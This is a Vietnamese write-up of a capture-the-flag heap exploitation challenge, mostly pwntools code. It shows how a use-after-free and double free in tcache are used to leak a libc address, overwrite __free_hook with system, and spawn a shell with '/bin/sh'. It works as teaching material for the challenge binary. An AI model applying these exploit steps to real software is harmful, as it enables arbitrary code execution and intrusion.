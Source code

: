 **1. Tìm lỗi**

Sau khi pwninint thì thấy phiên bản libc là 2.2 -> tcache được bật và nó không gây ra lỗi khi Double Free

Dùng IDA dịch thì thấy hàm getFlag ở lựa chọn 1:

![getFlag.png](photo/getFlag.png)

![free.png](photo/free.png)

Tiếp tục đọc source thì thấy ở lựa chọn 6 và 7 đều free nhưng không loại bỏ con troe đến đoạn giải phóng -> Use after free

![var.png](photo/var.png)

Chương tình có 2 biến chứa con trỏ đến đoạn malloc(0x10). Với lỗi Use after free thì có thể in giá trị một đoạn được giải phóng và lạm dụng danh sách liên kết tcache bằng cách chỉnh sửa con trỏ chuyển tiếp

**2. Ý tưởng**

Với lựa chọn 1 thì sẽ in thông tin admin. Với lỗi Use After Free và Double Free chúng ta cần cho user và admin trỏ đến cùng 1 đoạn, sau đó ghi đè lên ptr với biến user thông qua địa chỉ getFlag

**3. Khai thác**

Đầu tiên viết 7 hàm cho 7 lựa chọn trong chương trình như sau:

```
def newAdmin():
    r.sendlineafter(b'Choice: ', b'1')

def newUser(name):
    r.sendlineafter(b'Choice: ', b'2')
    r.sendafter(b'What is your name: ', name)

def printAdmin():
    r.sendlineafter(b'Choice: ', b'3')
    
def editStudent(name):
    r.sendlineafter(b'Choice: ', b'4')
    r.sendafter(b'What is your name: ', name)
    
def printStudent():
    r.sendlineafter(b'Choice: ', b'5')
    return r.recvline()

def deleteAdmin():
    r.sendlineafter(b'Choice: ', b'6')


def deleteUser():
    r.sendlineafter(b'Choice: ', b'7')
```

Tiếp theo sẽ tận dụng danh sách liên kết tcache để làm cho admin và user cùng trỏ đến cùng 1 doạn

```
newUser(b'0'*8)
deleteUser()
newAdmin()
```

Việc bây giờ là lấy địa chỉ hàm getFlag đưa vào biến User và thực hiện lựa chọn printAdmin vì bây giờ admin và user cùng trỏ đến một giá trị

```
getFlag = 0x40084a
editStudent(p64(0) + p64(getFlag))
print(printAdmin())
```

**4. Lấy cờ**

![fake.png](photo/fake.png)

Ý tưởng này đã thất bại khi file flag.txt không phải là nơi chứa flag

**2.1 Ý tưởng thứ 2**

Tận dụng danh sách liên kết tcache bằng cách Double Free user sau đó Use after free để ghi đè con trỏ chuyển tiếp bằng free@got

```
newUser(b'AuDuc')
deleteUser()
deleteUser()
```

Có địa chỉ free@got như sau:

![free_got.png](photo/free_got.png)

Sau đó chúng ta malloc 2 khối admin (để thiết lập lại tcache) và user(để rò rỉ địa chỉ)

```
newAdmin()
newUser(b'A')
free_addr = printStudent().split(b'name is ')[1][1:-1]
```

![free1.png](photo/free.2png)

![free2.png](photo/free2.png)

Ta thấy địa chỉ leak ra thiếu byte x50 cuối nên sẽ thêm vào

```
free_addr = u64(b'\x50' + free_addr + b'\x00\x00')
```

Sau khi leak được địa chỉ của free thì bằng những câu lệnh sau sẽ leak được địa chỉ libc base:

```
libc.address = free_addr - libc.sym['free']
print('Libc base: ', hex(libc.address))
```

Kết quả được

![libc.png](photo/libc.png)

Tiếp theo sẽ chỉnh sửa free@got

```
editStudent(p64(libc.sym['free']))
```

Sau khi ghi đè con trỏ phía trước vào đoạn free@got và malloc2, tcache hiểu nhầm địa chỉ trước đó là free_leak là kích thước để sử dụng sau:

![bins.png](photo/bins.png)

Tiếp theo sẽ free admin địa chỉ bộ nhớ tcache là chính xác: ```deleteAdmin()```

![bins1.png](photo/bins1.png)

Nhưng ở đây địa chỉ bộ nhớ tcache chưa được chính xác nên tạo user và Double free

```
newUser(b'A'*8)
deleteUser()
deleteUser()
```

![bins2.png](photo/bins2.png)

Và ở đây địa chỉ tcache đã chính xác

Tiếp theo ghi đè lên forward poiter địa chỉ __free_hook: ```editStudent(p64(libc.sym['__free_hook']))```

Tiếp theo là ghi vào tcache địa chỉ system:

```
newUser(b'A'*8)
newUser(p64(libc.sym['system']))
```
Lưu ý: Free sẽ kiểm tra xem __free_hook có trống không nếu không thì thực hiện chức năng bên trong

Tạo thêm chunk với giá trị /bin/sh: ```newUser(b'/bin/sh\x00')```

Việc còn lại là free để thực hiện shell

**4.1 Lấy flag lần 2**

![flag.png](photo/flag.png)
